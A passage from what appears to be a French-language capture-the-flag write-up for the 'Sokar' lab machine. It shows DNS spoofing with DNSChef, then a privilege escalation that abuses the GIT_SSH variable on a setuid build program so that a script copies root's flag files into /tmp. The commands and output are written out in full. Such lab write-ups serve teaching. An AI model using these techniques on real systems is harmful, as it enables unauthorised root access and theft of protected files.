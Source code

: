 ```plain
# python dnschef.py -6 -i ::0  --fakeip 192.168.1.3 --fakeipv6 fe80::ca60:ff:fec9:52af --logfile=blah
          _                _          __  
         | | version 0.3  | |        / _| 
       __| |_ __  ___  ___| |__   ___| |_ 
      / _` | '_ \/ __|/ __| '_ \ / _ \  _|
     | (_| | | | \__ \ (__| | | |  __/ |  
      \__,_|_| |_|___/\___|_| |_|\___|_|  
                   iphelix@thesprawl.org  

[*] Using IPv6 mode.
[*] DNSChef started on interface: ::0 
[*] Using the following nameservers: 2001:4860:4860::8888
[*] Cooking all A replies to point to 192.168.1.3
[*] Cooking all AAAA replies to point to fe80::ca60:ff:fec9:52af
[18:50:31] ::ffff:192.168.1.63: cooking the response of type 'A' for sokar-dev to 192.168.1.3
[18:50:32] ::ffff:192.168.1.63: cooking the response of type 'AAAA' for sokar-dev to fe80::ca60:ff:fec9:52af
```

La résolution fonctionne, encore faut-il pouvoir faire quelque chose d'intéressant avec le dépôt git que l'on aura préalablement créé.  

Les permissions setuid sur les fichiers sont droppées lors du git-clone et l'info sur le propriétaire initial aussi, sans doute à cause des options de montage de */mnt*.  

En fouillant dans la page de manuel de *git* et *git-clone* j'ai relevé des variables d'environnement potentiellement attaquables : *GIT\_TEMPLATE\_DIR*, *GIT\_EXEC\_PATH*, *GIT\_SSH* et *GIT\_ASKPASS*.  

L'idée derrière *GIT\_EXEC\_PATH* était de faire une copie de */usr/lib/git/* et de mettre un faux *git-clone* dans la copie du dossier... Sans résultat.
La variable *GIT\_ASKPASS* permet de spécifier une commande qui aurait du se lancer lors de la saisie des identifiants SSH... mais ça n'a pas marché non plus.  

En revanche avec *GIT\_SSH* on parvient à exécuter nos commandes (notre script ne doit pas générer d'output car git le lance via un pipe et analyse la sortie). Autre avantage : la commande s'exécute même si on n'a pas créé de dépôt auparavant.  

```plain
[apophis@sokar ~]$ echo '#!/bin/bash' > cmd
[apophis@sokar ~]$ echo 'cp /root/flag* /tmp' >> cmd
[apophis@sokar ~]$ echo 'chmod 777 /tmp/flag*' >> cmd
[apophis@sokar ~]$ GIT_SSH=/home/apophis/cmd ./build
GIT_SSH=/home/apophis/cmd ./build
Build? (Y/N) Y
Y
Cloning into '/mnt/secret-project'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
[apophis@sokar ~]$ cat /tmp/flag
cat /tmp/flag
                0   0
                |   |
            ____|___|____
         0  |~ ~ ~ ~ ~ ~|   0
         |  |   Happy   |   |
      ___|__|___________|___|__
      |/\/\/\/\/\/\/\/\/\/\/\/|
  0   |    B i r t h d a y    |   0
  |   |/\/\/\/\/\/\/\/\/\/\/\/|   |
 _|___|_______________________|___|__
|/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/|
|                                   |
```
